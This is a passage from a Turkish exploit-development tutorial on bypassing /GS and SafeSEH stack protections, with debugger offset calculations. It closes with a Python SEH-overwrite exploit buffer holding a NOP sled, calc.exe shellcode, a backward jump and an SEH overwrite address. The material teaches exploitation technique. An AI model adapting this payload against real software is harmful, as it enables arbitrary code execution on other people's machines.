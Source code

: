 `0012FD97` adresi bizim exploitimizde Yeni Jump diye geçen kısım. Yani bu adresten shellcodemuzun olduğu adrese olan uzunluğu bulmalıyız. Yine Immunity aracılığıyla yukarıya doğru çıkıp shellcodemuzu buluyoruz ardından son işlemleri yapacağız.

![](/files/gssafesehnoplarbulundu.png)

Gördüğünüz üzre bizim shellcodemuz `0012FBA0` adresinde başlıyor. Bunun üzerinden bir alan seçiyorum(**0012FB94**) ve şimdi buraya olan uzunluğu hesaplıyoruz :  `0x0012FB94-0x0012FD97=-0x203 = 515 byte` ardından `0012FD98` adresine gidip, onun üzerinde bulunan yere jmp kodumu yazıyor(space) ve opcode değerini öğreniyorum. 

![](/files/gssafesehdegeriogrendik.png)

Opcode değeri `E9 F8FDFFFF`, dikkat ederseniz bu değer 5 byte. Yani bu demektir ki boyut kısmı olan **524**'ü da bir azaltıp **523** yapacağız. Şimdi son hamlemizi yapıp bulduklarımızı exploite yerleştiriyoruz ve denememizi yapıyoruz. Son kez exploitimizi görelim.

	boyut = 523
	cokertkaarsim = "\x90" * 24
	cokertkaarsim += "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"   #calc.exe shellcode
	cokertkaarsim += "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
	cokertkaarsim += "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
	cokertkaarsim += "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
	cokertkaarsim += "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
	cokertkaarsim += "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
	cokertkaarsim += "\x45\x81\x3e\x43\x72\x65\x61\x75"
	cokertkaarsim += "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
	cokertkaarsim += "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
	cokertkaarsim += "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
	cokertkaarsim += "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
	cokertkaarsim += "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
	cokertkaarsim += "\x6c\x63\x89\xe2\x52\x52\x53\x53"
	cokertkaarsim += "\x53\x53\x53\x53\x52\x53\xff\xd7"
	cokertkaarsim += "\x90" * (boyut-len(cokertkaarsim ))
	cokertkaarsim += "\xe9\xf8\xfd\xff\xff"               #Geriye JMP 515 bayt
	cokertkaarsim += "\xeb\xf9\x90\x90"                   #Geriye JMP 7 bayt (Next SEH)
	cokertkaarsim += struct.pack('<I', 0x00270b0b)        #call dword ptr [ebp+30h]
